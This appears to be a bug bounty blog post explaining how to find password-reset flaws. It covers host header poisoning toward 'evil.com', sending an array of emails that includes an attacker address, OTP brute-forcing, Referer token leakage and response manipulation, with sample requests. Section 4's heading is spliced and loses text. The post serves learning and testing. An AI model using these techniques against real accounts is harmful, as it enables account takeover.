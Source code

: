 ![](https://doc-04-78-docs.googleusercontent.com/docs/securesc/verlshlmfc1t1njb364ugcnkir8n70s2/0j4gtoscbjb6fm8m5ndtrqmuva99l95u/1624281000000/04775644109016969579/04775644109016969579/1PBzIiqDi-79qdhzvh6T9rX_nHwY9QbGa?e=download&authuser=0)

Hey Guys!! This is my first post, In this blog post I will explain Hunting for password reset related bugs of an application. So, before explaining the attacks lets understand Common ways of Implementing this.

### Implementing a Password Reset Feature:

For every developer, implementing a password reset feature is a very interesting part. This is where he develops a logic and then implements it in the code. There is no well-defined industry standard on how to implement a secure password reset functionality in your application. So, the result is that every application has a different way of doing the same, starting from emails, unique URLs, temporary passwords, security questions, OTP etc.

Here is a list of the most commonly used ways to implement the password reset feature.

*   Email sent with a unique URL to reset the password
*   Email sent with a temporary password or current password
*   Secret questions asked and then given the option to reset the password
*   Use of OTP (One-time passwords) or multi-factor authentication

### Exploitation of Password Reset Feature:

![](https://doc-0s-78-docs.googleusercontent.com/docs/securesc/verlshlmfc1t1njb364ugcnkir8n70s2/ssfi2dmithp6ev3tavhnhsnmh13d25dm/1624280925000/04775644109016969579/04775644109016969579/1lBk2TMv5LvnxaFDfgWO1W-6qCJSEjJCh?e=download&authuser=0)

Exploiting Password Reset Feature can be quite interesting as there are many Common ways of exploiting it. It can lead to high severity bugs like Account Takeover as well as low hanging fruit like Weak token Implementation. Lets us look at the few of them:

### 1\. Token Leakage via Host Header Poisoning.

The attacker modifies the host header of the request to reset the target’s password to their own domain.

> GET [https://redacted.com/reset.php?email=foo@bar.com](https://redacted.com/reset.php?email=foo@bar.com) HTTP/1.1  
> host: evil.com

Trusting the company, they click the reset link. As the link is formed with the host header, this instead links to the attacker’s website. When the target visits this site, their password reset token is sent to the attacker. The attacker now resets the target’s password using their password reset token.

**Further Reading:**

> [https://hackerone.com/reports/182670](https://hackerone.com/reports/182670)  
> [https://hackerone.com/reports/698416](https://hackerone.com/reports/698416)  
> [https://hackerone.com/reports/13286](https://hackerone.com/reports/13286)

### 2\. Sending an array of email addresses instead of a single email address.

In this attack the The attacker can send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address and It could lead to full account takeover.

_POST_ [_https://example.com/api/v1/password\_reset_](https://example.com/api/v1/password_reset) _HTTP/1.1_

**Original Request Body:**  
_{“email\_address”:”_[_xyz@gmail.com_](mailto:xyz@gmail.com)_”}_

**Modified Request Body:**_{“email\_address”:\[“_[_admin@breadcrumb.com_](mailto:admin@breadcrumb.com)_”,”_[_attacker@evil.com_](mailto:attacker@evil.com)_”\]}_

In this way, the password reset link get send to both victim as well as attacker. And the attacker can use it to gain Full account Takeover.

**Further Reading:**  
[_https://hackerone.com/reports/322985_](https://hackerone.com/reports/322985)[_https://twitter.com/HusseiN98D/status/1254888748216655872_](https://twitter.com/HusseiN98D/status/1254888748216655872)

### 3\. Bruteforcing OTP for Reseting Password.

Now, In case The password reset functionality of application is based on OTP validation. Many program accepts No rate limit as acceptable risk. So, Bruteforcing OTP is worth trying.

You can reset the password of an account by intercepting the request for OTP validation and bruteforcing the 6 digit number. Using this, it is possible to change and reset the password of any account, by changing the user data and brute-forcing the reset OTP.

![](https://doc-0c-78-docs.googleusercontent.com/docs/securesc/verlshlmfc1t1njb364ugcnkir8n70s2/r7hn0m3b1jmntg893ej1oalvbaschahf/1624280775000/04775644109016969579/04775644109016969579/1vOOEUuLjixpZJbpQkYIJ0WrR32hcbMNU?e=download&authuser=0)

**Further Reading:**  
[_https://hackerone.com/reports/743545_](https://hackerone.com/reports/743545)[_https://hackerone.com/reports/280389_](https://hackerone.com/reports/280389)

### 4\. Password Reset Token LeaD the address of the webpage which is linked to the resource being requested. The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed.

![](https://doc-10-78-docs.googleusercontent.com/docs/securesc/verlshlmfc1t1njb364ugcnkir8n70s2/80rup3od74m74t3u1voachchnn7drdb9/1624281000000/04775644109016969579/04775644109016969579/11bOM8jhPtNIEt7jd-O9HvRfBPoxgcPyo?e=download&authuser=0)

Exploitation:

•Request password reset to your email address  
•Click on the password reset link  
•Don’t change password  
•Click any 3rd party websites(eg: Facebook, twitter)  
•Intercept the request in burpsuite proxy  
•Check if the referer header is leaking password reset token.

**Further Reading:**  
[_https://hackerone.com/reports/342693_](https://hackerone.com/reports/342693)[_https://hackerone.com/reports/272379_](https://hackerone.com/reports/272379)[_https://hackerone.com/reports/737042_](https://hackerone.com/reports/737042)

### 5\. Response manipulation: Replace Bad Response With Good One

Response manipulation can give you easy bugs. You can first use the normally and capture the response of reset password when you entered correct OTP/Token. Then try again with wrong OTP/Token and replace the unauthorized response with the success one.

**Look for Request and Response like these**  
_HTTP/1.1 401 Unauthorized_  
_(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)_

**Change Response**  
_HTTP/1.1 200 OK  
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)_

_Further Reading:_  
[_https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3_](https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3)

**_Thanks for Reading. Any Suggestions are always welcomed!!_**

Follow me for more….

Twitter: [https://twitter.com/Sm4rty\_](https://twitter.com/Sm4rty_)  
LinkedIn: [https://www.linkedin.com/in/sm4rty](https://www.linkedin.com/in/sm4rty)  
Instragram: [https://www.instagram.com/sm4rty](https://www.instagram.com/sm4rty)
